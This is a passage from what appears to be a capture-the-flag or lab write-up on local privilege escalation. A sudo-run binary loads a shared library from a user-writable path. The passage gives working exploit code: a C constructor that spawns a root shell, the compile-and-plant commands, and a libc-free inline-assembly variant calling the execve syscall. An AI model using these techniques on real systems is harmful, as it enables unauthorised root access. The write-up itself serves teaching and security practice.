 ```c
//e.c
#include <unistd.h>
void __attribute__((constructor)) load_function() {
  execve("/bin/bash", NULL, NULL);
}
```

```bash
$ gcc -shared -o e.so e.c
$ cp e.so /home/rektsu/.config/libcounter.so
$ sudo /usr/bin/stock
```

Pass in the password and we’re root!

![compiled on target steps](Assets/compile_on_target.jpg)

### Assembly to the rescue

Since the execve function is just a wrapper for the execve syscall there’s nothing stopping us from manually calling it and not depending on libc:

```c
//e2.c
//0x0068732f6e69622f is /bin/sh with a nullbyte
void __attribute__((constructor)) load_function() {
  asm(
      "mov \$0x0068732f6e69622f, %rax;"
      "push %rax;"
      "mov %rsp, %rdi;"
      "mov \$0x3b, %rax;"
      "syscall;"
  );
}
```

compile:

```bash
gcc -shared -nostdlib -fPIC -s -Os -o e2.so e2.c
```

Then simply drop it in the location the stock binary expects it, run the binary, pass in the password, and again we get the root shell!
